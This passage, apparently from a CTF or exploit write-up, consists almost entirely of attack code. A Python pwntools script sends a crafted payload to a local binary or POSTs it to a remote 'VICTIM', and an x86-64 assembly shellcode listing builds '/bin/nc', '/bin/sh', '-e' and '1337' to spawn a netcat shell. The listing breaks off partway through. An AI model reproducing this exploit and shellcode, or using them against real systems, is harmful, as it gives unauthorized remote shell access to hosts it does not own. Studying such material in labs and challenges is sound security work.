 ```python
    global io

    payload = craft_payload()
    env = {'CONTENT_LENGTH': f'{len(payload)}',}
    io = initialize(env=env)

    sleep(0.2)
    io.send(payload)

    io.interactive()
    
def exploit_remote():
    proxies = {'http': 'http://127.0.0.1:8080'}
    # res = requests.post(URL, proxies=proxies, data=craft_payload()) # burp debug
    res = requests.post(VICTIM, data=craft_payload())

    log.info("Status code: %d", res.status_code)
    log.info("Response: %s", res.text)

if __name__ == '__main__':
    if args.REMOTE:
        exploit_remote()
    else:
        debug_local()
```
{% endcode %}

{% code title="shellcode.asm" %}
```asm6502
    BITS 64
    DEFAULT REL

    section .text
    global _start

_start:
    xor    	rdx,rdx
    mov 	rdi,0x636e2f6e69622fff
    shr	rdi,0x08
    push 	rdi
    mov 	rdi,rsp

    mov	rcx,0x68732f6e69622fff
    shr	rcx,0x08
    push 	rcx
    mov	rcx,rsp

    mov     rbx,0x652dffffffffffff
    shr	rbx,0x30
    push	rbx
    mov	rbx,rsp

    mov	r10,0x37333331ffffffff
    shr 	r10,0x20
    push 	r10
    mov	r10,rsp

    jmp short ip
    continue:
    pop 	r9

    push	rdx  ;push NULL
    push 	rcx  ;push address of 'bin/sh'
    push	rbx  ;push address of '-e'
```